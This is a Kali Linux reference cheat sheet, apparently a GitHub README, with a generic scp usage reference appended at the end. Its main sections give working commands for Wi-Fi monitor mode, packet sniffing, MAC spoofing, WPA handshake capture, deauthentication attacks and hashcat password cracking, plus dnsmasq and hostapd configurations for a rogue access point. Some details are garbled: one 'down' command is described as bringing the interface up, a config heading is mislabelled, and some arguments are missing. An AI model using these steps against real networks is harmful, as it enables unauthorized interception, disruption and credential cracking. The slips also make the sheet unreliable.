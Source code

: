 # Kali-Linux-Reference

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up


## Capturig Handshake file
* `airodump-ng -bssid [bssid] --channel [1] --write Desktop/Captures/WPA wlan0mon`

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] -c [MAC of  Client] wlan1mon`

## Cracking Handshake file with Hashcat (Windows)
* `hashcat64.exe -m 2500 capture.hccap wordlist.lst`
* Keyspace method
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 1234567890 ?1?1?1?1?1?1?1?1`
* `hashcat64.exe -m 2500 -a3 capture.hccap -1 ?d?d?d?d?d?d?d?d`

## Pyrit Reduce size of WPA/WPA2 .Cap file
* `pyrit -r capture.cap analyze`
* `pyrit -r capture.cap -o output.cap strip`


# Rouge Access Point

## Enabling Monitor Mode

* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 
* `ifconfig wlan1mon 10.0.0.1/24` : Set IP of Monitor Interface

## Install tools

* `apt-get install -y hostapd dnsmasq wireless-tools iw wvdial`

## Configure dnsmasq

* `mv /etc/dnsmasq.conf /etc/dnsmasq.conf_bkp` : Create backup of config file
* `vim /etc/dnsmasq.conf`

## dnsmasq.conf file
```
log-facility=/var/log/dnsmasq.log
#address=/#/10.0.0.1
#address=/google.com/10.0.0.1
interface=wlan0mon
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
#no-resolv
log-queries
```

* `vim /etc/hostapd/hostapd.conf`

## dnsmasq.conf file
```
interface=wlan1mon
driver=nl80211
ssid=Rouge-AP
channel=1
#enable_karma=1
```

## Start dnsmasq 

* `service dnsmasq start`
* `tail -f /var/log/dnsmasq.log`

## Start hostapd 

* `hostapd /etc/hostapd/hostapd.conf`

## scp

> Secure copy.
> Copy files between hosts using Secure Copy Protocol over SSH.

- Copy a local file to a remote host:

`scp {{path/to/local_file}} {{remote_host}}:{{path/to/remote_file}}`

- Copy a file from a remote host to a local folder:

`scp {{remote_host}}:{{path/to/remote_file}} {{path/to/local_dir}}`

- Recursively copy the contents of a directory from a remote host to a local directory:

`scp -r {{remote_host}}:{{path/to/remote_dir}} {{path/to/local_dir}}`

- Copy a file between two remote hosts transferring through the local host:

`scp -3 {{host1}}:{{path/to/remote_file}} {{host2}}:{{path/to/remote_dir}}`

- Use a specific username when connecting to the remote host:

`scp {{path/to/local_file}} {{remote_username}}@{{remote_host}}:{{path/to/remote_dir}}`

- Use a specific ssh private key for authentication with the remote host:

`scp -i {{~/.ssh/private_key}} {{local_file}} {{remote_host}}:{{/path/remote_file}}`




